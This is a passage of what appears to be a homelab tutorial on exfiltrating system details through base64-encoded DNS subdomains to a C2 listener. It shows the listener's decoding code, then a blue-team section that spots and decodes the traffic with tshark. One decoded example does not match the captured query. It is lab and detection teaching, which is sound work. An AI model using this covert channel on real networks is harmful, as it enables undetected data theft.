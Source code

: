 ``` python
                        pass
                    else:
                        decoded_section = base64.b64decode(section).decode("utf-8").strip()
                        message.append(decoded_section)
        if message:
            print(" ".join(message))
        time.sleep(1)
```

`dns_listener.py` is designed to listen to the DNS log file for any updates, refreshing every second. You may have noticed that this is a very basic example and isn't very fault-tolerant. It will quickly strip out the query within the DNS record, split that query into sections by periods, and decode those sections if they don't match one of two keywords; homelab and local. Make sure to adapt those keywords to fit your setup if you're following along or you will have errors. A more robust approach would be to verify whether each section is actually base64-encoded rather than excluding specific keywords. However, this works perfectly fine for this lab exercise.

It's important to note that the malware on your infected machine will gather user and system information which will be different from mine. In other words, my example output will look much different to yours because you will have chosen your own username and operating system. That said, if all steps were followed correctly, the listener will have successfully decoded the DNS query and output the infected machine's details in plaintext:
```
alex@c2-server:~$ python3 dns_listener.py 
alex 6.14.10-arch1-1
```

With that you've had a basic example of how an adversary might exfiltrate data via the DNS protocol. The example I've given is the first step of communication, where the server has now received information which it can use to identify the infected machine. In future communications the infected machine could prefix messages with this information so that the C2 server may recognise the source of the data.

## Blue Team
Let's pretend we're a sysadmin for a moment and have decided to take a look at some of the network traffic. We load up `tshark` (the command-line version of WireShark) and spot this:
```
   25 3.127105183 192.168.1.182 → 8.8.8.8      DNS 118 Standard query 0xe83a TXT YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local OPT
   26 3.137087890      8.8.8.8 → 192.168.1.182 DNS 193 Standard query response 0xe83a No such name TXT YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local SOA a.root-servers.net OPT
```

That's weird... I don't know that domain, and those subdomains look suspicious. Normally we could use some Open-Source Intelligence (OSINT) to checkout the domain and get some juicy details on a malicious network, but our DNS is private so we can't do that. Instead, we take a deeper look at those subdomains... are they encoded?
```
root@homelab-firewall:/home/alex# echo "YWxleAo=" | base64 -d
alex
root@homelab-firewall:/home/alex# echo "Ni4xNS4yLWFyY2gxLTEK" | base64 -d
6.15.2-arch1-1
```
